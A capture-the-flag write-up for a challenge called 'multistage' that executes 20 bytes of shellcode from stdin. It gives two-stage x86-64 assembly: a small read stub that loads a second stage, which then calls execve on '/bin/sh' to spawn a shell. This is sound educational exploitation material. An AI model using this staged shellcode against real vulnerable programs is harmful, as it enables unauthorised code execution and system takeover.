 # multistage

This challenge reads shellcode from stdin and executes it. The problem is that it reads just 20 (0x14) bytes that are not enough to write a shellcode that spawns a shell.

The idea is to write a first stage that reads the second stage from stdin.

## First Stage

```asm
mov rsi, rax
xor rax, rax
mov rdi, rax
mov rdx, 0x1000
syscall
; 2 * 0x90
```

- RSI: set to the address of the second stage
- RAX: set to 0 (SYS_read)
- RDI: set to 0 (stdin)
- RDX: set to 0x1000 (4096 bytes), the number of bytes to read (basically a random large enough number)

## Second Stage

```asm
; 20*0x90 to align with the RIP
mov rdi, rsi
add rdi, 0x2a
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: set to the address of the string "/bin/sh" (RSI + 0x2a)
- RAX: set to 0x3b (SYS_execve)
- RSI: set to 0 (NULL)
- RDX: set to 0 (NULL)

Why 0x2a? Because the first stage is 20 bytes long and the second one is 22 bytes long. So the total is 42 = 0x2a.

The complete exploit is in [script.py](script.py).
